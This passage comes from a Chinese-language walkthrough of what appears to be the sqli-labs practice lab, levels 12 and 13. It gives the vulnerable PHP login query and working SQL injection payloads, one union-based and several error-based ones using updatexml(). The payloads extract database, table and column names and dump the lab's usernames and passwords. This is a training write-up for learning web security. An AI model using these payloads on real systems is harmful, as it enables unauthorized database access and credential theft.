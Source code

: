

##### 12. Error Based - Double quotes - String - with twist

又遇上特殊组合

```php
$uname='"'.$uname.'"'
$passwd='"'.$passwd.'"'
@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
```

因此破解需要使用`")`

```sql
xx("uname=-1") union select 1,2 ##&passwd=admin&submit=Submit
```



##### 13.  Double Injection - Single quotes - String - With twist

输出成功的账号密码，只看到一张成功登录的图片，猜想失败也是更换失败的图片。然后试了一下账号名使用`admin'#`，尝试进行破坏账号密码查询结构，出现错误返回信息。因此猜测错误的时候会有`sql_error()`函数调用。所以不能用成功登录的回显作为注入点，需要使用错误注入，用报错的回显获取信息。

 查看源码：

```php
@$sql="SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1";
```

```sql
// 查看库名
xx('uname=1') and updatexml(1,concat(0x7e,database(),0x7e),1) #&passwd=admin&submit=Submit
// 结果： XPATH syntax error: '~security~'
// 查看表名
xx('uname=1') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #&passwd=admin&submit=Submit
// 结果：XPATH syntax error: '~emails,referers,uagents,users~'
// 爆破users表列名
xx('uname=1') and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e),1) #&passwd=admin&submit=Submit
// 结果：XPATH syntax error: '~id,username,password~'
// 爆破users表数据
xx('uname=1') and updatexml(1,concat(0x7e,substr((select group_concat(username) from security.users),1,30),0x7e),1) #&passwd=admin&submit=Submit
xx('uname=1') and updatexml(1,concat(0x7e,substr((select group_concat(password) from security.users),1,30),0x7e),1) #&passwd=admin&submit=Submit
/* username：
(1,30)   XPATH syntax error: '~Dumb,Angelina,Dummy,secure,stu~'
(31,30)  XPATH syntax error: '~pid,superman,batman,admin,admi~'
(61,30)  XPATH syntax error: '~n1,admin2,admin3,dhakkan,admin~'
(91,30)  XPATH syntax error: '~4~'</br>
*/
/* password结果：
(1,30)   XPATH syntax error: '~Dumb,I-kill-you,p@ssword,crapp~'
(31,30)  XPATH syntax error: '~y,stupidity,genious,mob!le,adm~'
(61,30)  XPATH syntax error: '~in,admin1,admin2,admin3,dumbo,~'
(91,30)  XPATH syntax error: '~admin4~'</br>
*/
```
